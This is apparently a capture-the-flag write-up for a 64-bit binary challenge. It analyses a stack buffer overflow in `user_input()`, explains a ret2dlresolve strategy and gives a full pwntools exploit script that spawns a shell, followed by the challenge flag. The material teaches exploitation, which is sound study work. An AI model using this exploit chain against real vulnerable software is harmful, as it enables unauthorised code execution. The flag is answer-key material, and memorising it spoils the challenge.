





# Network Relay - Writeup

---

## Exploit Demo

This demo illustrates the exploit process, culminating in shell access via `ret2dlresolve`:


---

## Binary Inspection

### Step 1: Initial Binary Details

```bash
$ file main
```

- 64-bit dynamically linked ELF binary
- Not stripped



### Step 2: Security Protections

```bash
$ pwn checksec main
```

- **RELRO**: Partial
- **Stack**: No canary
- **NX**: Enabled
- **PIE**: Disabled (base address fixed at 0x400000)



---

## Static Analysis (IDA Pro)

Reverse engineering the binary shows the vulnerability resides in the `user_input()` function:

### user_input()

```c
ssize_t user_input()
{
  _BYTE buf[64]; // [rsp+0h] [rbp-40h] BYREF
  return read(0, buf, 0xC8uLL);  // Reads 200 bytes into a 64-byte buffer!
}
```



- This function reads **200 bytes** into a buffer that's only 64 bytes long, introducing a **classic stack-based buffer overflow**.
- The binary has **no stack canary**, making the overflow straightforward to exploit.
- There is **no return-style function** (like `system`, `exit`, or a function pointer) to pivot to.
- **Libc is not provided**, so calling `system("/bin/sh")` via a static address is not viable.

---

## How to Solve

We solve this challenge using **`ret2dlresolve`**, a powerful dynamic linker resolution technique.

**Why?**

- No direct access to libc symbols.
- No system call or syscall gadgets available.
- No return function like `system()` in the binary.
- But the binary is **dynamically linked** — meaning we can exploit the dynamic linker itself to resolve and call `system`.

---

## Vulnerability Summary

- **Buffer Overflow** in `user_input()` via oversized `read()` call.
- **No stack canary** → safe to overflow.
- **NX enabled** → code injection is blocked, so we use a ROP chain.
- **No PIE** → static base makes ROP reliable.
- **No `system` in binary or known libc** → use `ret2dlresolve`.

---

## Exploit Strategy

1. **Overflow the stack** to hijack control flow.
2. **Build a ROP chain** to:

   - Call `read()` again to write the forged `Elf64_Rel`, `Elf64_Sym`, and command string (`/bin/sh`) into memory.
   - Trigger the dynamic linker via `ret2dlresolve()` to resolve `system` and call it with `"/bin/sh"`.

3. **Send second-stage payload** (dlresolve structures + `/bin/sh`).
4. **Get a shell**.

---

## Exploit Script

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'main')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# Stripped:   No

io = start()

rop = ROP(exe)

dlresolve = Ret2dlresolvePayload(exe, symbol='system', args=['/bin/sh'])
rop.raw('A' * 72)
rop.read(0, dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)
log.info(rop.dump())
io.sendline(rop.chain())
io.sendline(dlresolve.payload)

io.interactive()


```

---

## Result

After executing the exploit, we successfully resolve and call `system("/bin/sh")`.




---

## FLAG

```
RedPointer{HelloPhantom!23}
```
